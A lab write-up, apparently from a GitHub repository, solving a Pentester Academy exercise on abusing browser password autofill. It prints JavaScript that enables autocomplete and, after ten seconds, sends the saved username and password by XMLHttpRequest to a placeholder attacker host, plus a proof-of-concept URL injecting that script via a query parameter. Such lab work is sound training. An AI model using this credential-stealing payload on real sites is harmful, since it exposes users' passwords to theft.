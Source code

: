 ## Task 13 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/13)</small>

Objectives:

1. Enter a Username/Password and allow the browser to remember it
2. Reload the page so the auto-complete now adds the Username/Password automatically
3. Write JS attack code which waits for 10 seconds, then submits the form automatically to your Attack server using an XMLHttpRequest() call

This is similar to [TASK_12](https://github.com/tbhaxor/pt-jsfp/blob/main/TASK_12.md), just the change is in the delivery. Earlier it was submitting the form, this time we have to send a XHR request.

Well, XHR are the way by which you can send HTTP requests programatically using JS.

To accomplish this task, we have to use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) and the setTimeout function which will call it after 10 seconds

```js
document.forms[0].autocomplete = "on";
setTimeout(() => {
  var xhttp = new XMLHttpRequest();
  const e = document.querySelector("input[type='text']");
  const p = document.querySelector("input[type='password']");
  xhttp.open("GET", "http://attack-site.com?e=" + e.value + "&p=" + p.value, true);
  xhttp.send();
}, 10000);
```

To check if the request has been made to the endpoint or not, you can see all the requests in [Network Tab](https://developers.google.com/web/tools/chrome-devtools/network)

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/13?url=%3Cscript%3Edocument.forms%5B0%5D.autocomplete%20%3D%20%22on%22%3B%0AsetTimeout%28%28%29%20%3D%3E%20%7B%0A%20%20var%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20const%20e%20%3D%20document.querySelector%28%22input%5Btype%3D%27text%27%5D%22%29%3B%0A%20%20const%20p%20%3D%20document.querySelector%28%22input%5Btype%3D%27password%27%5D%22%29%3B%0A%20%20xhttp.open%28%22GET%22%2C%20%22http%3A%2F%2Fattack-site.com%3Fe%3D%22%20%2B%20e.value%20%2B%20%22%26p%3D%22%20%2B%20p.value%2C%20true%29%3B%0A%20%20xhttp.send%28%29%3B%0A%7D%2C%2010000%29%3B%0A%3C%2Fscript%3E)

**More Resources**

1. [Get Started with XHR](https://www.w3schools.com/xml/xml_http.asp)
